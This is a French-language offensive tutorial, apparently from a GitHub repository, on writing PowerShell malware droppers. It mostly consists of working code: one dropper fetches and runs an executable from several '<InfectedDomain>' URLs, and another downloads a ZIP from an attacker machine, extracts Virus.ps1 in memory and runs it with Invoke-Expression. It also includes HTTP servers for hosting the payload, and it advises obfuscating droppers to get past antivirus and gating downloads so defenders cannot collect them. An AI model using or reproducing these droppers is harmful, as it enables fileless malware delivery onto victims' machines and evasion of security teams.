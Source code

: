 
La plupart des malwares ne sont pas distribué en un seul fichier et fonctionne en 2 étages :

# __Dropper___

Afin **télécharger** et d'**éxecuter** le malware **en mémoire**, on va faire éxecuter un **dropper** qui va faire appel à un domaine infecté pour télécharger notre payload.

Notez qu'il est conseillé de mettre une authentification web au téléchargement dans le but d'éviter une collecte par des blueTeamers qui aurai vu passer le flux sans avoir accès au code du dropper.

Ces droppers sont très souvent repéré par les AV, on doit donc utiliser des techniques d'obfuscations afin de passer à travers et

### Exemple

Avec powershell ce code ressemblerai à cela :

```powershell
$wvh = new-object net.webclient;
$nsh='http://<InfectedDomain1>/trkldl@http://<InfectedDomain2>/adCa0ad@http://<InfectedDomain3>/bl4bl4c4r'.split("@");
$onj = '453';
$dxo=$env:temp+'\'+$onj+'.exe';
foreach($wzi in $nsh){
	try{
		$wvh.downloadfile($wzi, $dxo);
		if((get-item $dxo).length -ge 80000){
			invoke-item $dxo;
			break;
		}	
	}catch{}
}
```

Pour résumer ce payload va :
- **Creer un objet pour telecharger**
- **Faire une liste des liens où trouver le malware**
- **Télécharger** puis **executer** le premier fichier qui aura une taille > 80000

## __Telechargement__

Windows 10 et + :

```powershell
Invoke-WebRequest -Uri 'http://<MACHINE_IP>:8000/Virus.zip' -outfile "virus.zip";
```

Windows 7 et - :

```powershell
# Creation d'un nouveau client web
$webClient = [System.Net.WebClient];

# Telechargement des donnes dans une variable
$zip = $webClient.DownloadData('http://<MachineIP>:8000/Virus.zip');
```


## __Extraction__

Une fois l'étape précédente effectué, le ZIP se trouve en mémoire dans la variable $zip. On doit donc les extraire en restant en mémoire.

```powershell
# Chargement de la bibliothèque System.IO.Compression
[System.Reflection.Assembly]::LoadWithPartialName('System.IO.Compression') | Out-Null;

# Ouverture du fichier 'Virus.ps1' dans l'objet zip en mémoire
$entry = (New-Object System.IO.Compression.ZipArchive(New-Object System.IO.MemoryStream (, $zip))).GetEntry('Virus.ps1');

# Décompression du fichier
$b = [byte[]]::new($entry.Length);
$entry.Open().read($b, 0, $b.Length);

# Conversion en texte UTF8
$code = [System.Text.Encoding]::UTF8.GetString($b);
```


## __Execution__

Une fois le payload stocké en mémoire il ne reste plus qu'à l'éxécuter.

```powershell
$code | Invoke-Expression
```


## __Exemple_Memory_Dropper___

En combinant tout cela on peut faire un dropper fonctionnant exclusivement dans la mémoire :

```powershell
$webClient = [System.Net.WebClient];
$zip = $webClient.DownloadData('http://<MACHINE_IP>:8000/Virus.zip');
[System.Reflection.Assembly]::LoadWithPartialName('System.IO.Compression') | Out-Null;
$entry = (New-Object System.IO.Compression.ZipArchive(New-Object System.IO.MemoryStream (, $zip))).GetEntry('Virus.ps1');
$b = [byte[]]::new($entry.Length);
$entry.open().Read($b, 0, $b.Length);
$code = [System.Text.Encoding]::UTF8.GetString($b);
$code | iex;
```


# __Downloading_Server___

Pour télécharger notre payload depuis la cible, on doit mettre en place un serveur HTTP.

## Python

On peut utiliser python qui nous crée un server web très facilement.

```shell
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

## Powershell

Si l'on veut rester en powershell on peut utiliser ce code :

```powershell
Function New-SimpleHTTPListener {
	# Port en écoute
	Param(
		[Parameter()] [Int] $Port = 8000
	)

	# Par défaut en écoute sur localhost
	Begin{
		$listener = New-Object System.Net.HttpListener;
		$prefix = "http://localhost:$Port";
		$listener.Prefixes.Add($prefix);	
	}

	Process {
		try{
			# Demarrer le serveur
			$listener.Start();
			$pwd = Get-Location;

			# Attendre les connexions
			while($listener.IsListening){
				$context = $listener.GetContext();

				# terminer le serveur si l'url demandé est '/quit'
				if($context.Request.HttpMethod -eq 'GET' -and $context.Request.RawUrl -eq '/quit'){
					$listener.Close();
					break;
				}

				# Préparer la réponse
				$HTTPresponse = $context.Response;
				$HTTPresponse.StatusCode = "200";
				$HTTPresponse.Headers.Add("Content-Type", "text/text");

				# Lire le fichier demandé par l'URL
				$requestUrl = $context.Request.Url.OriginalString;
				$data = [System.Text.UTF8Encoding]::UTF8.GetBytes([System.IO.File]::ReadAllText(Join-Path "$pwd" ($RequestUrl.split('/')[-1])));

				# Renvoyer le contenu du fichier en réponse
				$HTTPresponse.ContentLength64 = $data.Length;
				$output = HTTPresponse.OutputStream;
				$output.Write($data, 0, $data.Length);

				# Fermer la connexion
				$output.Close();
			}
		}catch{
			Write-Host "erreur : $_";
		}Finally{
			Write-Host "Fin d'éxécution : $_";
			$listener.stop();
		}
	}

	End {
	
	}
}
```

